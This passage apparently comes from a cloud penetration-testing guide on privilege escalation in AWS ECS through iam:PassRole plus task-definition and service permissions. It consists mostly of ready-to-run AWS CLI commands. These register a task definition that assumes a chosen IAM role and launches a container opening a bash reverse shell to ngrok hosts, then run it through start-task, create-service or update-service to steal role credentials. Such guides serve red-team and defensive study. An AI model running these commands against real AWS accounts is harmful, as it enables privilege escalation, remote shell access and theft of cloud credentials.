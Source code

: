 ```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
    --container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```

**Potential Impact:** Direct privesc to any ECS role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`

Just like in the previous example an attacker abusing the **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** or **`ecs:CreateService`** permissions in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it by creating a new service with at least 1 task running.**

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn  "$ECS_ROLE_ARN" \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --requires-compatibilities "[\"FARGATE\"]" \
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"

# Run the task creating a service
aws ecs create-service --service-name exfiltration \
    --task-definition iam_exfiltration \
    --desired-count 1 \
    --cluster "$CLUSTER_ARN" \
    --launch-type FARGATE \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
    --service <SERVICE NAME> \
    --task-definition <NEW TASK DEFINITION NAME>
```
